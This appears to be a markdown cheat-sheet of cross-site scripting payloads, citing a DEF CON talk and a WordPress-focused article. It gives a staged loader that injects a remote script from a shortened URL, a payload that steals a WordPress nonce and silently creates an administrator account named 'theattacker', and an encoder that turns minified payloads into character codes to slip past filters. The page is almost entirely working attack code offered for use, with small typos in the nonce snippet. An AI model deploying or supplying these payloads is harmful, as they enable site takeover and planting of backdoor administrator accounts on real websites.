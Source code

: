 Staged XSS updated - from [YouTube - DEF CON Safe Mode Red Team Village - Ray Doyle - Weaponized XSS Moving Beyond Alert](https://www.youtube.com/watch?v=ksq7e6UUDag)
```js
var c=function(){
	a() // downloaded from s.src
};
var s=document.createElement('script');
s.src='//bit.ly/example';
s.onreadystatechange=c;
document.body.appendChild(s);

```
#### Privilege Escalation with New Admin User creation

[Shift8 Article - Create an Admin user](https://shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/) 
```js
// Get the Wordpress Nounce in Javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var wp_nonceRegex = /ser" value="([^"]*?)"/g;
wajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
// Then create a new admin user with JavaScript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=theattacker&email=theattacker@whatever.com&pass1=attackpass&pass2=attackpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
Deliver Payload - article recommends [javascript-minifier.com](https://javascript-minifier.com/) - Use Minification and encoding with JavaScript in Browser developer console to encode minifed Javascript payloads
```js
// Use or similar to minify JavaScript: 
// https://jscompress.com 
// https://javascript-minifier.com/)
// Then encode:
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
